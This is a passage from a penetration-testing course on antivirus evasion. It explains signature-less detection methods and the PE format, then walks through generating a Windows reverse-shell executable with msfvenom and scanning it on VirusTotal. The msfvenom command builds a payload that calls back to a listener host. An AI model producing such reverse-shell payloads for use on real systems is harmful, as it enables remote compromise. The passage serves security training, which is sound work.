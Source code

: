 Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that antivirus manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each antivirus product will differ in terms of what code is considered malicious.

It's worth noting that many antivirus developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![Figure 1: Virustotal results on the msfvenom payload.](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png)

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.
